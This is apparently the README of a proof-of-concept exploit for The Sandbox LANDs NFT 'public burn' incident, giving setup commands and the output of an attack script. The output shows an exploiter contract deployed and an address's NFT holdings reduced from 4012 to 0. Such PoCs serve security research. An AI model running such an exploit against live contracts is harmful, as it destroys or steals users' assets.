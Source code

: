 # The Sandbox's Public Burn Incident PoC

## How to run

Set up the environment variable for $ALCHEMY_KEY

```
$  git clone https://github.com/SupremacyCA/Web3.0-Rekt
$  export $ALCHEMY_KEY = xxxxx
$  cd ./Sandbox_LANDs
$  yarn

then 

$  sh run.sh
```

```
$  sh run.sh
yarn run v1.22.18
warning package.json: No license field
Compiled 3 Solidity files successfully
$ /Users/WangYi/Projects/PoCs/Web3.0-Rekt/NFT/Sandbox_LANDs/node_modules/.bin/hardhat run scripts/attack.js
[#] 👀 Exploiter Smart Contract deployed to: 0x7bc06c482DEAd17c0e297aFbC32f6e63d3846650
[#] 🧛‍♀️ Amount of NFT held before the attack: 4012
[#] 🧛‍♀️ Amount of NFT held after the attack: 0
✨  Done in 38.97s.
```

---
